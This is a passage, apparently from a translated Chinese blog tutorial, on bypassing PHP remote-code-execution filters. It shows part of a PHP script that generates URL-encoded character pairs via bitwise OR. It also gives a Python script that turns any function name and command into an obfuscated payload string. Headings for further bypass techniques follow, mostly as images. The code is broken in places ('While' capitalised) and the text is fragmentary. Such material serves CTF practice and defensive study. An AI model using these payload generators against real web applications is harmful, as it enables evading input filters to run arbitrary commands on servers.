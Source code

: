 ```php
        $c=(urldecode($a)|urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

Construct scripts using generated data
```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       While True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
While True:
   param=action(input("\n[+] your function:") )+action(input("[+] your command:"))+";"
   print(param)
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602170233796.png#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602170239753.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# URL encoding reverse bypass
Applicable to PHP version: Unlimited

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602163350934.png#pic_center)
![Insert here
Into the picture description](https://img-blog.csdnimg.cn/20210602163356845.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602163534793.png#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602163540529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Increment and decreasing operator bypass
